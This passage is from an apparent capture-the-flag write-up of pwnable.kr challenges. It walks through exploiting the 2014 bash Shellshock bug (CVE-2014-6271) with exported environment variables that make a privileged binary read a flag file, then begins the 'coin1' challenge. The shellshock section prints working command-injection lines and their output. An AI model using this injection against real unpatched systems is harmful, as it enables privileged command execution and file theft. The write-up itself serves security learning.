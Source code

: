 So what is shellshock? It's a bash vulnerability from 2014. Quoted from it's [Wikipedia](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) page:
> The first bug causes Bash to unintentionally execute commands when the commands are
> concatenated to the end of function definitions stored in the values of environment 
> variables.

If we look at the [initial CVE reported on the Wikipedia page](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#Initial_report_(CVE-2014-6271)) it gives us this bit of code to see if we're vulnerable.

```bash
env X='() { (a)=>\' bash -c "echo date"; cat echo
```

Lets modify this a little. Instead of doing `env` lets `export` it, and remove the trailing `cat echo`:
```bash
$ export x='() { :;}; echo vulnerable'
```

Now if we run `env` we should see it in the list of variables:
```bash
$ env | grep vuln
x=() { :;}; echo vulnerable
```

If all works as expected, we should see "vulnerable" printed when we run the shellshock binary now:

```bash
$ ./shellshock
vulnerable
shock_me
```

Woohoo! What does this mean for us? Since the program runs priviledged, and the code we injected into the environment variables gets run under this priviledged execution, we should be able to just change `echo vulnerable` to `cat /home/shellshock/flag` and then when we run the shellshock binary it should print out the flag for us. It also looks like the PATH isn't set in this environment, so we have to specify the exact path to `cat`.

```bash
$ export x='() { :;}; /bin/cat /home/shellshock/flag'
$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```

### coin1

> Mommy, I wanna play a game!
> (if your network response time is too slow, try nc 0 9007 inside pwnable.kr server)
>
> Running at : nc pwnable.kr 9007

Okay, let's see what the rules of this game are.

```bash
$ nc pwnable.kr 9007

	---------------------------------------------------
	-              Shall we play a game?              -
	---------------------------------------------------
	
	You have given some gold coins in your hand
	however, there is one counterfeit coin among them
	counterfeit coin looks exactly same as real coin
	however, its weight is different from real one
	real coin weighs 10, counterfeit coin weighes 9
	help me to find the counterfeit coin with a scale
	if you find 100 counterfeit coins, you will get reward :)
```